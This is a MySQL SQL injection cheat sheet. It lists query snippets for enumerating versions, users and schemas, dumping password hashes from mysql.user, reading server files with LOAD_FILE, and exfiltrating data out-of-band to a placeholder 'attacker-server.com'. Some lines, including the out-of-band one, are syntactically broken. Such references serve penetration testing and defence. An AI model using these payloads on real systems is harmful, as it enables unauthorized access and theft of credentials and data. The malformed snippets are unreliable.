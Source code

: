 ```yaml
---
title: MYSQL
date: 2017-05-13 16:52:33
---
```


## Comments
``` sql
#
/* */ 
-- -
;%00
```

## Version
``` sql
SELECT VERSION();
SELECT @@VERSION;
SELECT @@GLOBAL.VERSION;
```

## User details
``` sql
user()
current_user()
system_user()
session_user()
SELECT user,password FROM mysql.user;
```

## Database details
``` sql
SELECT db_name();
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

## Database credentials
``` sql
SELECT host, user, password FROM mysql.user;
```

## Server details
``` sql
SELECT @@hostname;
```

## Table Name
``` sql
SELECT table_name FROM information_schema.tables;
```

## Columns Names
``` sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
```

## No Quotes
``` sql
CONCAT(CHAR(97), CHAR(98), CHAR(99))
```

## String Concatenation
``` sql
CONCAT(foo, bar)
```

## Conditionals
``` sql
SELECT IF(1=1,'true','false');
```

## Time-delay
``` sql
Sleep(10)
```

## Read Files
``` sql
SELECT LOAD_FILE('C:Windowswin.ini');
```

## Out-of-Band Retrieval
``` sql
SELECT LOAD_FILE(concat("\\",(SELECT 1), "attacker-server.com\");
```

## Substrings
``` sql
SELECT substr('Foobar', 1, 1);
```

## Retrieve Nth Line
``` sql
SELECT * FROM table ORDER BY ID LIMIT 3,1
```
